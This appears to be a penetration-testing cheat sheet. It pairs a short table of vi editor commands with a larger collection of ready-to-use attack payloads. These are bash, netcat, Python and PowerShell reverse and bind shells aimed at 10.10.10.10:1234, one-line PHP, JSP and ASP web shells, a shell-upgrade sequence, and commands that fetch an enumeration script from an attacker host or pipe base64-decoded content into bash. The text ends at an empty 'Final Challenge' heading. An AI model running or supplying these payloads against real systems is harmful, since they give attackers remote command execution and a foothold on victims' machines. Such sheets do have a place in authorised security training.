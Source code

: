 ### Vi commands

| Command |	Description |
| ------- | ----------- |
| x |	Cut character |
| dw |	Cut word |
| dd |	Cut full line |
| yw |	Copy word |
| yy |	Copy full line |
| p |	Paste |
| :1 |	Go to line number 1. |
| :w |	Write the file, save |
| :q |	Quit |
| :q! |	Quit without saving |
| :wq |	Write and quit |

> https://github.com/theicfire/vimsheet/blob/gh-pages/index.md
---------
> https://vimsheet.com/
---------

Reverse shell, Bind Shell payloads


Reverse Shell
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
```bash
Bind Shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```

Upgrading TTY

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo;fg
export TERM=xterm
stty a
stty rows <> cols <>
```

Web Shells

```bash

PHP: <?php system($_REQUEST["cmd"]); ?>
JSP: <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
ASP: <% eval request("cmd") %>

```

Transferring files

```bash
python3 -m http.server
wget http://10.10.14.1:8000/linenum.sh
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
scp linenum.sh user@remotehost:/tmp/linenum.sh
base64 shell -w 0 -> echo -n "<base_64_output> | base64 -d | bash
```

## Final Challenge - How to ?


